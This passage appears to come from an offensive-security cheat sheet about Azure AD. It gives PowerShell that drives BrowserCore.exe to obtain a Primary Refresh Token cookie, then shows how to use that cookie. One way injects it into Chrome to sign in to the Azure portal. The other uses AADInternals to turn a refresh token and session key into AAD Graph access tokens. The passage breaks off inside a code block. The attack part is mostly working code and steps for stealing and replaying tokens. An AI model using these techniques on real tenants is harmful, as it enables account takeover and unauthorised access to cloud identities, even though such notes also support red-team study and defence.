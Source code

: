 ```
$p.StartInfo.FileName = $browsercorepath
$p.StartInfo.UseShellExecute = $false
$p.StartInfo.RedirectStandardInput = $true
$p.StartInfo.RedirectStandardOutput = $true
$p.StartInfo.CreateNoWindow = $true

# Starts the process.
$p.Start()
$stdin =  $p.StandardInput
$stdout = $p.StandardOutput

# Writes the input
$stdin.BaseStream.Write([bitconverter]::GetBytes($body.Length),0,4)
$stdin.Write($body)
$stdin.Close()

# Retrieves the response.
$response=""
while($null -ne $stdout -and !$stdout.EndOfStream) {
    $response += $stdout.ReadLine()
}

Write-Host "RESPONSE: $response"

$p.WaitForExit()
```

###### Using the PRT-cookie

The `PRT-cookie` can be used in a number of ways, for instance to access the
web portal or request access and refresh tokens for the `AAD Graph API`.

  - Access to the Azure web portal using `Chrome`:

      1. Access the Azure login page at `https://login.microsoftonline.com/`.

      2. Open the Developer tools and clear the current cookies:
         F12 -> Application -> Cookies -> Clear

      3. Add the `PRT-cookie` as `x-ms-RefreshTokenCredential`, with `HttpOnly`
         enabled.

      4. Access the Azure portal at `https://portal.azure.com/`.

  - Access to `Azure AD` with the `AzureAD` PowerShell module, using
    `AADInternals`'s `Get-AADIntAccessTokenForAADGraph` to get an access token:

    ```bash
    [...]

    $prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SessionKey_B64 -GetNonce

    $accessToken = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken [-SaveToCache]

    Write-Host "Access token for AAD Graph API: " $accessToken
